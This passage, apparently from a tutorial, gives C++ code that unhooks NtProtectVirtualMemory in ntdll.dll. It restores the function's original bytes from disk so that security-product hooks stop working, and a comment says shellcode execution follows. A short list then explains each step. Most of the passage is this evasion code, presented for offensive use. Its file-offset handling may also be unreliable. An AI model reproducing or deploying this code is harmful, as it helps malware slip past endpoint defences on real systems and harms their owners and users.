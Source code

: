 ```cpp
    // Open the original DLL from disk
    unsigned char originalBytes[16]; // Size of bytes to restore (depends on the function)
    char dllPath[MAX_PATH];
    GetSystemDirectoryA(dllPath, MAX_PATH);
    strcat_s(dllPath, "\\");
    strcat_s(dllPath, dllName);

    // Read the original function bytes from disk
    if (!ReadOriginalDLL(dllPath, originalBytes, sizeof(originalBytes), (DWORD)((BYTE*)pFunctionAddress - (BYTE*)hModule))) {
        std::cerr << "Failed to read original bytes from DLL on disk" << std::endl;
        return;
    }

    // Unprotect the memory region where the hooked function resides
    DWORD oldProtect;
    if (!VirtualProtect(pFunctionAddress, sizeof(originalBytes), PAGE_EXECUTE_READWRITE, &oldProtect)) {
        std::cerr << "Failed to unprotect memory" << std::endl;
        return;
    }

    // Restore the original bytes
    memcpy(pFunctionAddress, originalBytes, sizeof(originalBytes));

    // Re-protect the memory
    VirtualProtect(pFunctionAddress, sizeof(originalBytes), oldProtect, &oldProtect);
}

int main() {
    // Example: Unhooking NtProtectVirtualMemory in ntdll.dll
    UnhookDLL("ntdll.dll", "NtProtectVirtualMemory");

    // Continue with shellcode execution or other tasks...

    return 0;
}
```

### Key Points in the Code

1. **Finding the Function**: `GetProcAddress` is used to find the address of the function that might be hooked (e.g., `NtProtectVirtualMemory`).
   
2. **Reading the Original DLL**: The original bytes of the function are read from the disk version of `ntdll.dll`. This allows you to compare or replace the in-memory version that might be hooked.

3. **Restoring the Original Bytes**: The potentially hooked function is overwritten with the original bytes from the disk, effectively unhooking the function.

4. **Memory Protection**: `VirtualProtect` is used to change the memory protection of the target function to allow writing, and then it’s restored after the function is unhooked.
